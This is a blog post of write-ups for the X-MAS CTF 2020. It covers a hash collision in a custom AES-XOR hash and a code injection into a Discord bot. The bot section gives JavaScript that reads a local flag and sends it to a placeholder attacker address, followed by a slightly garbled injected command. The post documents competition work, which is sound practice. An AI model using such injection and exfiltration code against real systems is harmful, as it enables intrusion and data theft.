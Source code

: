 ```yaml
---
layout: post
title:  "X-MAS CTF writeups"
date:   2020-12-17 12:59:36 +0200
categories: ctf
---
```


These are the writeups for the [X-MAS CTF 2020 by HTsP](https://xmas.htsp.ro/home) challenges that I personally solved.


## Help a Santa helper?

In this challenge you need to find hash collisions for a custom hashing algorithm. After passing the initial challenge using instructions from [here] (https://security.stackexchange.com/questions/223157/how-can-i-find-a-sha-256-hash-with-a-given-suffix-using-hashcat= we are presented a menu:

```
Good, you can continue!
Hello, thanks for answering my call, this time we have to break into Krampus' server and recover a stolen flag.
We have to solve a hash collision problem to get into the server.
Sadly, we're on a hurry and you only have 2 actions you can make until we get detected.
Choose what you want to do:
1. hash a message
2. provide a collision
3. exit
```
The hashing algorithm is given in the challenge and it’s using AES and XOR to calculate the hash in 16 byte blocks:

Let’s first hash a 16 byte message, which is the length of and AES block. If we use “00000000000000000000000000000000” as the first hash the output will be directly from the AES algorithm, something like “6ea8be2…1e692df”. We can then calculate the next hash as 3 AES block as follows:

Let’s again use “0000000…0000000” as the first block so the self.hash will be the same as in the first message “6ea8be2…1e692df”. Let’s the set the hash from first message as the second block. It will then get XORed to zero in AES() call which produces the same value as in the previous block. The final hash will then be “6ea8be2…1e692df” XOR “6ea8be2…1e692df” which is zero. Now the algorithm is back to inital state for the third and final round when we again use “0000000…0000000” as the third block which produces exactly the same hash as the first message a.ka. a collision.

As a generalisation the colliding messages are MSG1 and MSG1+HASH_FOR_MSG1+MSG1. You can find the source code to get past the initial challenge below but I chose to enter the hashes manually since there was no time limit.

{% gist a1812fdfb9845cd8d6b28ae2a1f23ce8 %}


## Comfort bot

In this challenge we need to get a Discord bot to reveal the flag. The source code is provided as part of the challenge and analysing it quickly reveals a code injection exploit:

We can test the vulnerability by sending the bots commands like:
```
comf foo ','
comf foo ',1,'
comf foo ',1,2,'
````

Which translate to function calls like `cleverbot.SendAI('foo',1,2,'')` This takes advantage of the fact that Javascript is a loosely typed language and we can supply any number of arguments to the function. After we verify that the bot answers to these commands we can add JS code to get the flag and make an HTTP request to our own server:

```javascript
window.foo=new XMLHttpRequest();
window.foo.onreadystatechange = function() {window.open("http://MYIPADDRESS/"+this.responseText)}
window.turl = "http://localhost/flag";
window.foo.open("GET",window.turl,true);
window.foo.send();
```
With this code and the fact that function arguments are evaluated left to right the final command to send to the bot is:

```
comf foo',window.foo=new XMLHttpRequest(),window.foo.onreadystatechange = function() {window.open("http://MYIPADDRESS"http://localhost/flag",window.foo.open("GET",window.turl,true),window.foo.send(),'
```


## Krampus' Lazer Tag


{% gist 3183bdb9f38fe52a3947064ed0e3bd4a %}
